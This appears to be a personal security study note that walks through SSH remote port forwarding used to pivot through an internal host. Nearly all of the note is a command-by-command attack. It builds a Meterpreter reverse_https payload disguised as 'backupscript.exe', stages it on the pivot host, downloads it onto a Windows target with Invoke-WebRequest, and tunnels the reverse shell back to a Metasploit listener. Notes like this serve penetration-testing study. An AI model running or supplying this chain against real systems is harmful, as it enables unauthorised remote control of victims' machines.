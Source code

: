# Remote/Reverse Port Forwarding with SSH


![](Security%20Notes/Assets/Pasted%20image%2020220801200400.png)


## Problem
If we use Host A to pivot to Host B, we cannot get a reverse shell from host B to to attacker machine since Host B  is on the internal network and does not have a route to attacking machine

## Solution
To gain a `Meterpreter shell` on Windows, we will create a Meterpreter HTTPS payload using `msfvenom`, but the configuration of the reverse connection for the payload would be the Ubuntu server's host IP address (`172.16.5.129`). We will use the port 8080 on the Ubuntu server to forward all of our reverse packets to our attack hosts' 8000 port, where our Metasploit listener is running.


### Step 0
Connect using ssh
`ssh -D <socks port> <user>@<ip>`

### Step 1
` msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InteralIPofPivotHost> -f exe -o backupscript.exe LPORT=8080`

### Step 2
(without proxychains)
`use /exploit/multi/handler`
`lport=8000, lhost=0.0.0.0`

### Step 3
Transfer payload to pivot host
`scp backupscript.exe ubuntu@<ipAddressofTarget>:~/`

### Step 4
Start python3 webserver on Pivot host to send the file
`python3 -m http.server 8123`

### Step 5 
Download payload on windows target
`Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"`

### Step 6

**SSH Remote port forwarding**
` ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN`
`-vN` verbose and don't prompt login shell
`-R` The -R command asks the Ubuntu server to listen on targetIPaddress:8080 and forward all incoming connections on port 8080 to our msfconsole listener on 0.0.0.0:8000 of our attack host.
